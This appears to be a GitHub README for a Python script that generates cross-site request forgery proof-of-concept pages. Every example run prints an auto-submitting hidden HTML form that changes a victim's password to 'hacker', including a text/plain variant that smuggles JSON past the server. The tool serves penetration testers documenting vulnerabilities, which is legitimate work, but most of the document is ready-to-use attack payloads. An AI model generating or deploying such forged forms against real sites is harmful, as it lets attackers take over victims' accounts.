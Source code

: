# CSRF PoC Generator
This is a pyhton script which generates PoC for Cross-site request forgery with autosubmit form. you just need to provide Url, method and parameters.


# Required Package

```python3 -m pip install yattag```

# Usage

# Options
```
root@ghost:~# python3 csrf_poc_gen.py -h
usage: csrf_poc_gen.py [-h] [-m METHOD] [-u URL] [-p PARAMETERS] [-a AUTHOR]
                       [-e ENCTYPE]

This is a pyhton script which generates PoC for Cross-site request forgery
with autosubmit form. you just need to provide Url, method and parameters.

optional arguments:
  -h, --help            show this help message and exit
  -m METHOD, --method METHOD
                        Method
  -u URL, --url URL     url
  -p PARAMETERS, --parameters PARAMETERS
                        Request parameters
  -a AUTHOR, --author AUTHOR
                        Name of Author
  -e ENCTYPE, --enctype ENCTYPE
                        enctype
```

# JSON Based CSRF PoC 

Note: Some applications accept Json data when Content-type: ```text/plain```.

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p '{new_password: "hacker", re_password: "hacker", extra": =extra}' -e "text/plain"
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="text/plain">
      <input type="hidden" name="{new_password: %22hacker%22, re_password: %22hacker%22, extra%22: " value="extra}" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

# To Generate PoC 

Note: Parameters should be in the form of key value pair (key=value&key=value).
```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" 
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# Enctype
it supports 3 enctype ```application/x-www-form-urlencoded```, ```multipart/form-data``` and ```text/plain```.

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -e "text/plain"
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="text/plain">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# With Discoverer Name

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -a "Hacker man"
<html>
  <title>
    This CSRF was found by Hacker man
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
